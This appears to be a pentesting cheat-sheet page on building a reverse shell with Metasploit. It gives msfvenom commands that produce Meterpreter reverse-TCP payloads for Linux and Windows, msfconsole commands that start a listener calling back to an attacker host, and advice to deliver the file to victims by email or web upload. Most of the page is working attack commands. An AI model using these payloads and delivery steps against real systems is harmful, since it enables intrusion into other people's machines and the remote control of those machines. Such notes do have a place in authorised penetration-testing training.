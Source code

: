 ```yaml
---
title: Reverse Shell with Metasploit
description: We can create a reverse shell payload using Msfvenom and listen for reverse connection with Msfconsole.
tags:
    - Privilege Escalation
    - Reverse Shell
refs:
date: 2024-01-26
draft: false
---
```


## Generate Reverse Shell Payload

### 1. Create a Payload using MsfVenom

```bash
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -o shell.elf

# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o shell.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f aspx -o shell.aspx
```

### 2. Start Listener using MsfConsole

```bash
msfconsole
msf> use exploit/multi/handler

# Linux
msf> set payload linux/x86/meterpreter/reverse_tcp
# Windows
msf> set payload windows/meterpreter/reverse_tcp
# or
msf> set payload windows/x64/meterpreter/reverse_tcp

msf> set lhost 10.0.0.1
msf> set lport 4444
msf> run
meterpreter> shell
```

### 3. Send the Generated File to Target Machine

After that, we need to send the generated malicious file to target machine somehow such as below:

- Send email with this file.
- Upload this file to target web server.

Then a user in target machine executes this file, we may be able to get a shell of target system.
